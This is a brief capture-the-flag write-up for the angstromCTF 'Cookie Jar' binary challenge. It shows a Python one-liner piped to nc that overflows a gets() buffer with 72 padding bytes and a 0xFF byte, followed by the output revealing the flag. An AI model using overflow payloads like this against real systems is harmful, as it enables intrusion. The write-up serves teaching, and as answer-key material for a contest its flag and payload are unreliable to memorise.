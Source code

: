 # Cookie Jar
binary - 60 points

## Challenge 
Note: Binary has been updated

Try to break this [Cookie Jar](cookiePublic64) that was compiled from this [source](cookiePublic.c) Once you've pwned the binary, test it out by connecting to `nc shell.angstromctf.com 1234` to get the flag.

## Hint
Look up some vulnerabilities associated with buffers.

## Solution

Buffer overflow of `gets()`

	$ python -c 'print "A"*72 + "\xFF" ' | nc shell.angstromctf.com 1234
	Welcome to the Cookie Jar program!

	In order to get the flag, you will need to have 100 cookies!

	So, how many cookies are there in the cookie jar: 
	Congrats, you have 255 cookies!
	Here's your flag: actf{eat_cookies_get_buffer}

## Flag

	actf{eat_cookies_get_buffer}